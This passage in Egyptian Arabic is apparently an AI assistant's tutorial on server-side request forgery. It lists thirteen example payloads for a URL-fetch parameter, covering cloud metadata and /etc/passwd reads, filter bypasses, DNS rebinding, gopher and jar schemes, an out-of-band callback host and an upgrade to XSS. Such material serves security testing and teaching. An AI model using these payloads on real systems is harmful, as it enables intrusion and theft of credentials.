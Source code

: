 
### **مثال كامل**
افترض إنك بتختبر موقع فيه حقل لجلب رابط على `example.com/fetch?url=`.
1. جرب: `example.com/fetch?url=http://example.com` (اختبار عادي).
2. جرب: `example.com/fetch?url=http://localhost:80` (اختبار localhost).
3. جرب: `example.com/fetch?url=http://169.254.169.254/latest/meta-data/` (اختبار Metadata).
4. جرب: `example.com/fetch?url=file:///etc/passwd` (قراءة ملف).
5. لو فيه فلتر، جرب: `example.com/fetch?url=http://127.0.0.1.nip.io` أو `example.com/fetch?url=http://2130706433/`.
6. جرب إعادة توجيه: `example.com/fetch?url=https://307.r3dir.me/--to/?url=http://localhost`.
7. جرب DNS Rebinding: `example.com/fetch?url=http://make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms`.
8. جرب اختلاف تحليل URL: `example.com/fetch?url=http://127.1.1.1:80\@127.2.2.2:80/`.
9. جرب PHP `filter_var()`: `example.com/fetch?url=http://test???test.com`.
10. جرب JAR: `example.com/fetch?url=jar:http://127.0.0.1!/`.
11. جرب بروتوكولات: `example.com/fetch?url=gopher://localhost:25/_TEST`.
12. جرب استغلال عمياء: `example.com/fetch?url=http://your-id.interact.sh`.
13. جرب XSS: `example.com/fetch?url=http://brutelogic.com.br/poc.svg`.

---

الشرح ده غطّى كل المواضيع اللي في النص (Common Exploitation Paths، Bypassing Filters، URL Schemes، Blind Exploitation، وUpgrade to XSS) بشكل مفصل وعملي. لو عايز تفاصيل أكتر عن أي خطوة أو أمثلة إضافية، قولي وأنا أشرح!